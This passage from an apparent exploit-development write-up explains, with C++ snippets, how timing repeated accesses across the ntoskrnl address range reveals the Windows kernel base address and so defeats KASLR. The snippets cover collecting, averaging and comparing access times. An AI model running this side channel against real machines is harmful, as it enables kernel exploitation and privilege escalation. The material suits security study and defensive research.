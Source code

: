 What we mainly do here is run the `sideChannel` function 256 times (0x100) for each address in the `ntoskrnl` range and accumulate the result (timing) in the `Speed` array at the index corresponding to the address. As you can see, during the first iteration of those 0x100, we populate the `Addrs` array with all 0x8000 entries.

Once the loop finishes, we’ll have the sum of 0x100 access times for each of the 0x8000 addresses in our `Speed` array.

You’ll also notice that we actually perform 0x105 iterations. The first 5 runs help eliminate outlier or inconsistent values that could result from initial execution anomalies.

At the end, we’ll have two arrays filled with data: one with all the addresses in the range and another with the access times for each address.
```cpp
	for (unsigned int Times = 0; Times < 0x100 + 5; Times++) {

		for (UINT64 index = 0; index < Range; index++) {

			if (!Addrs[index]) {
				Addrs[index] = 0xfffff80000000000 + index * 0x100000;
			}

			CacheSpeed = sideChannel((void*)Addrs[index]);

			if (Times >= 5) {
				Speed[index] += CacheSpeed;
			}
		}
	}
```

---

Then, we convert each entry in the `Speed` array from a raw sum of access times to an average over the 256 iterations.
```cpp
	unsigned int i = 0;
	for (i = 0; i < Range; i++) {
		Speed[i] /= 0x100;
	}
```

---

Now comes a very important step, calculating the average speed. This is very helpful because 99.9% of the addresses are of no interest to us, so we need a way to compare and identify which of them are significantly below average.
```cpp
	int maxCount = 0;
	int averageSpeed = 0;
	for (i = 0; i < Range; i++) {

		int count = 0;
		for (unsigned int c = 0; c < Range; c++) {
			if (Speed[i] == Speed[c]) {
				count++;
			}
		}

		if (count > maxCount) {
			maxCount = count;
			averageSpeed = Speed[i];
		}
	}

	printf("\nAverage Speed -> %u", averageSpeed);
```
